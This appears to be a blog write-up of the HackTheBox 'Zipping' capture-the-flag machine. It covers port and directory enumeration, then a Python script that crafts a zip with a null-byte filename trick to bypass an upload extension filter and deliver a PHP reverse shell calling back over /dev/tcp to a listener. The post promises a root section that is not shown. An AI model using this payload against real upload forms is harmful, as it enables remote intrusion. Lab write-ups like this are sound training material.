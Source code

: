 ```yaml
---
title: Zipping
date: 2023-12-13 02:12:40 +0000
categories: [htb, learning]
tags: [htb]     # TAG names should always be lowercase
---
```


## **<span style='color:#ff5555'>Zipping</span>**

Welcome to my another writeup! In this HackTheBox [Zipping] machine, you'll learn: Content discovery via `gobuster Or anything`, exploiting file upload vulnerbility & extension filter bypass.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Table of Content

1. **[Service Enumeration](#service-enumeration)**
2. **[Initial Foothold](#initial-foothold)**
3. **[Privilege Escalation:](#privilege-escalation)**
4. **[Conclusion](#conclusion)**

## Background

![Alt Text](/assets/images/htb/zipping.png)

## Service Enumeration

**Create 2 environment variables for future use:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ export RHOSTS=10.10.11.229

k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ 
export LHOST=ifconfig tun0 | grep -E 'inet [0-9]+\.[0-9]+\.[0-9]+\.[0-9]' | cut -d' ' -f10
```

As usual, scan the machine for open ports via `nmap`!

**nmap:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ nmap -sC -sV -T4 -A --vv $ip -oN nmap_day

Result :
Discovered open port 22/tcp on 10.10.11.229
Discovered open port 80/tcp on 10.10.11.229

PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp   open     http    syn-ack     Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.54 (Ubuntu)
3945/tcp filtered emcads  no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now, we can perform content discovery using tools like gobuster to find hidden directories and files:

```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$
gobuster dir -u http://10.10.11.229/ -w /home/k0r3k/cybersec/exploit/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt -t 40
```

- Found directory: **`/upload.php `**

Here we can see that we have to upload a zip file containing a pdf, with this scenario we can identify a zip flip attack.

I made it in python so it can be reviewed

```python
from struct import pack
import argparse
import zlib
import requests

parser = argparse.ArgumentParser(description='Exploit Zipper')
parser.add_argument('-L', '--listener_ip', help='listener ip')
parser.add_argument('-R', '--target_ip', help='target ip')
args = parser.parse_args()

filename1 = b'rev.php.pdf'
filename2 = b'rev.php\x00.pdf'

filecontent = b"""<?php system("bash -c 'bash -i >& /dev/tcp/"""+args.listener_ip.encode()+b"""/9001 0>&1'"); ?>"""
length = len(filecontent)
crc = zlib.crc32(filecontent)


p  = b''
p += b'\x50\x4b\x03\x04' # magic bytes
p += b'\x14\x00' # version
p += b'\x00\x00' # flags
p += b'\x00\x00' # compression
p += b'\x48\xb9' # modtime
p += b'\x1b\x57' # moddate
p += pack("<L", crc) # crc
p += pack("<L", length) # compressed size
p += pack("<L", length) # uncompressed size
p += pack("<H", len(filename1)) # filename len
p += b'\x00\x00' # extra field len
p += filename1
p += filecontent

# central directory
cd  = b''
cd += b'\x50\x4b\x01\x02' # magic bytes
cd += b'\x14\x03' # version
cd += b'\x14\x00' # version needed
cd += b'\x00\x00' # flags
cd += b'\x00\x00' # compression
cd += b'\x48\xb9' # modtime
cd += b'\x1b\x57' # moddate
cd += pack("<L", crc) # crc
cd += pack("<L", length) # compressed size
cd += pack("<L", length) # uncompressed size
cd += pack("<H", len(filename2)) # filename len
cd += b'\x00\x00' # extra field len
cd += b'\x00\x00' # file comm. len
cd += b'\x00\x00' # disk start
cd += b'\x00\x00' # internal attr.
cd += b'\x00\x00\xA4\x81' # external attr
cd += b'\x00\x00\x00\x00' # offset of local header
cd += filename2

# end of centryl directory record
ecd  = b''
ecd += b'\x50\x4b\x05\x06' # magic bytes
ecd += b'\x00\x00' # disk number
ecd += b'\x00\x00' # disc # w/cd
ecd += b'\x01\x00' # disc entries
ecd += b'\x01\x00' # total entries
ecd += pack("<L", len(cd)) # central directory size
ecd += pack("<L", len(p))
ecd += b'\x00\x00'

f = open("rev.zip", "wb")
f.write(p+cd+ecd)
```

## And Get the shell And root, eNJOY tHE Game.

# **<span style='color:#ff5555'>DISCLAIMER</span>**
```
This cheatsheet is intended to guide CTF players in their research. This cheatsheet, and its content does match with the creation of an interesting challenges 😉.
```